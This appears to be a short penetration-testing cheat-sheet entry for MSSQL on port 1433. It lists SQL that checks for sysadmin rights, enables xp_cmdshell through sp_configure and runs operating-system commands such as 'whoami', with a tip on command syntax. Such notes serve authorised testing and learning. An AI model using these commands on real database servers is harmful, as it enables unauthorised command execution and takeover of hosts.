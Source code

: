 # 1433 - MSSQL

{% page-ref page="../tools/mssqlclient.py-impacket.md" %}

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;

EXEC sp_configure 'xp_cmdshell', 1
reconfigure;

xp_cmdshell "whoami"
```

{% hint style="info" %}
Compare the following syntax \(note the `;)`

* `EXEC xp_cmdshell "whoami";`
* `xp_cmdshell "whoami"`
{% endhint %}



